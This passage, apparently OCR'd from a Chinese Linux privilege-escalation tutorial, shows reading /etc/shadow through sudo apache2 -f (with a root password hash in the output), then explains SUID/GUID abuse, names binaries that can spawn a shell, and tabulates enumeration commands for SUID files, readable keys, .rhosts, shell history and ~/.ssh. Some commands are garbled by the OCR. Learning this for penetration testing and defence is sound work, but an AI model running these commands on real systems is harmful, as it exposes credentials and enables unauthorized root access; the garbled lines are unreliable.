 但是使用它我们可以查看系统文件。

sudo apache2 -f / etc / shadow

输出是这样的：

Syntax error on line 1 of /etc/shadow:Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration

可悲的是没有shell。但是我们可以现在提取root哈希，然后在破解了哈希。

0x006 linux提权-Suid和Guid配置错误
描述

SUID代表设置的用户ID，是一种Linux功能，允许用户在指定用户的许可下执行文件。例如，Linux ping命令通常需要root权限才能打开网络套接字。通过将ping程序标记为SUID（所有者为root），只要低特权用户执行ping程序，便会以root特权执行ping。

SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。

当运行具有suid权限的二进制文件时，它将以其他用户身份运行，因此具有其他用户特权。它可以是root用户，也可以只是另一个用户。如果在程序中设置了suid，该位可以生成shell或以其他方式滥用，我们可以使用它来提升我们的特权。

以下是一些可用于产生SHELL的程序：

nmap

vim

less more

nano

cpmv

find

查找suid和guid文件

Find SUID find / -perm -u=s -type f 2>/dev/null Find GUID find / -perm -g=s -type f 2>/dev/null

其他命令

命令结果
find / -perm -4000 -type f 2>/dev/null查找SUID文件
find / -uid 0 -perm -4000 -type f 2>/dev/null查找root拥有的SUID文件
find / -perm -2000 -type f 2>/dev/null查找SGID文件（粘性位）
find / ! -path “/proc/“ -perm -2 -type f -print 2>/dev/null查找世界可写文件，不包括proc文件
find / -type f ‘(‘ -name .cert -or -name .crt -or -name .pem -or -name .ca -or -name .p12 -or -name .cer -name .der ‘)’ ‘(‘ ‘(‘ -user support -perm -u=r ‘)’ -or ‘(‘ -group support -perm -g=r ‘)’ -or ‘(‘ -perm -o=r ‘)’ ‘)’ 2> /dev/null-or -name .cer -name *.der ‘)’ 2> /dev/null查找您可以阅读的密钥或证书
find /home –name *.rhosts -print 2>/dev/null查找rhost配置文件
find /etc -iname hosts.equiv -exec ls -la {} 2>/dev/null ; -exec cat {} 2>/dev/null ;查找hosts.equiv，列出权限并管理文件内容
cat ~/.bash_history显示当前用户历史记录
ls -la ~/.*_history向当前用户分发各种历史文件
ls -la ~/.ssh/检查当前用户的ssh文件
find /etc -maxdepth 1 -name ‘.conf’ -type f要么ls -la /etc/.conf在/ etc中列出配置文件（深度1，在第一个命令中修改maxdepth参数以对其进行更改）
lsofgrep ‘/home//etc//opt/‘显示可能有趣的打开文件
